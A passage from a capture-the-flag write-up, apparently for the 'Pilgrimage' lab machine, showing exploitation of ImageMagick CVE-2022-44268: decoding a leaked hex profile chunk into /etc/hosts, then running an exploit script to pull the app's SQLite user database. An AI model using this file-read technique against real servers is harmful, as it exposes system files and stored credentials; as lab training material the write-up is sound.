 You should see a chunk called `Raw profile type`, containing a hex sequence:

```
    Raw profile type:

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
```

Decoding to `utf-8`: 

```shell
python3 -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode())'
```

And here's our file!

```
127.0.0.1	localhost
127.0.1.1	pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### And now?

We can see any file that Imagemagick has access. Here's where things heat's up: the database of this app is SQLite. The main attribute (and, for us, benefit) of SQLite is it **serverless** design, which means that all the database it's on a single file!

Checking the code of the app again:

```php
// Register.php
$db = new PDO('sqlite:/var/db/pilgrimage');
$stmt = $db->prepare("INSERT INTO `users` (username,password) VALUES (?,?)");
$status = $stmt->execute(array($username,$password));
```

The path to the database is `/var/db/pilgrimage`. Let's retrieve it!

```
python3 CVE-2022-44268.py /var/db/pilgrimage
```

Send the file to the server and check the hex content:
